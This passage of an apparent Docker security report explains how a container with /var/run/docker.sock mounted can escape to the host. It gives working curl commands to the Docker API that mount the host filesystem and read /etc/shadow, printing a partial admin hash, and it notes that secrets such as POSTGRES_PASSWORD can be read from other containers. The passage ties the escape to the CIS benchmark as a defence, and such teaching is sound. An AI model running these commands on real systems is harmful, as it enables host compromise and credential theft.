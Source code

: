 \hfill

Let's say we want to get the password hash of an user called \lstinline{admin} on the host. We are in a container that has access to \lstinline{/var/run/docker.sock}. We use the API to start another Docker container on the host, that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}[caption={Start Docker using the API to read host files.},captionpos=b]
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\hfill

This is also covered by CIS Benchmark guideline 5.31 (Ensure that the Docker socket is not mounted inside any containers).

\subsubsection{Sensitive Information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e.\ when \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g.\ passwords in the environment variables).

\hfill

Let's start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

